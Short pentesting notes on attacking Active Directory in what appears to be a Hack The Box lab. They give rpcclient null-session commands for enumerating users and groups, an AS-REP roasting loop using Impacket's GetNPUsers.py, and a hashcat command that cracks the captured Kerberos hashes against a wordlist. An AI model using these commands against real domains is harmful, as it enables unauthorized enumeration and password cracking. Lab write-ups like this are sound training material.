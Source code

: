 # Active Directory

## ldapsearch

It's worth checking if the LDAP service allows anonymous binds using the ldapsearch tool

## RPC Enum

`rpcclient -U "" 10.10.10.161`

`enumdomusers` `enumdomgroups`

Query domain admins `querygroup 0x200` `querygroupmem 0x200`

Query admin `queryuser 0x1f4`

## AS-REP roasting

There is an option for an account to have the property Do not require Kerberos preauthentication or UF\_DONT\_REQUIRE\_PREAUTH set to true. AS-REP Roasting is an attack against Kerberos for these accounts. I have a list of accounts from my RPC enumeration above. Ill start without the SM _or HealthMailbox_ accounts

`for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done`

`hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force`
